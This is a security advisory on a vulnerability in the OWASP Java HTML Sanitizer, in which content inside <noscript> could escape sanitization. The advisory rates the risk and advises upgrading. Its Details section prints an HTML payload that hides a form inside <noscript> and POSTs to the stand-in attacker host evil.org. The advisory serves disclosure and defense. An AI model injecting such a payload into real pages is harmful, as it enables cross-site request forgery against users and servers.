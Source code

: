# CVE-2011-4457

A vulnerability in the
[OWASP HTML Sanitizer](https://github.com/OWASP/java-html-sanitizer)

allows redirecting or POSTing to an arbitrary URL when the user
interacts with sanitized content and when JavaScript is disabled.

It also allows inclusion of links without
"[rel=nofollow](http://microformats.org/wiki/rel-nofollow)" when
JavaScript is disabled.

Crawlers that respect `nofollow` and which look for links inside
`<noscript>...</noscript>` could conclude a containing page has
link-spam.

Due to the constrained circumstances and the fact that it does not
allow exfiltration of data protected by the same-origin policy it is
considered low risk.  For policies that allow external links, the
escalation of privilege only includes POSTing, possibly including
upload of files chosen by the user.

We recommend upgrading to release 88 or later available
which does not break API compatibility with the previous release.

The project CHANGE log is available at
http://owasp-java-html-sanitizer.googlecode.com/svn/trunk/CHANGE_LOG.html

## Details 

The attack hinges on the way `<noscript>` was parsed and rendered.

```Java
<noscript>
  <form method=POST action=http://evil.org/>
    <input name=x value=y>
    <input type=submit>
  </form>
</noscript>
```

will POST `x=y` to `http://evil.org/` when the submit button is
pressed and when the user has javascript turned off as when running
the NoScript extension.

The POST will carry user credentials so a vulnerable page can be used
to initiate XSRF against vulnerable servers.
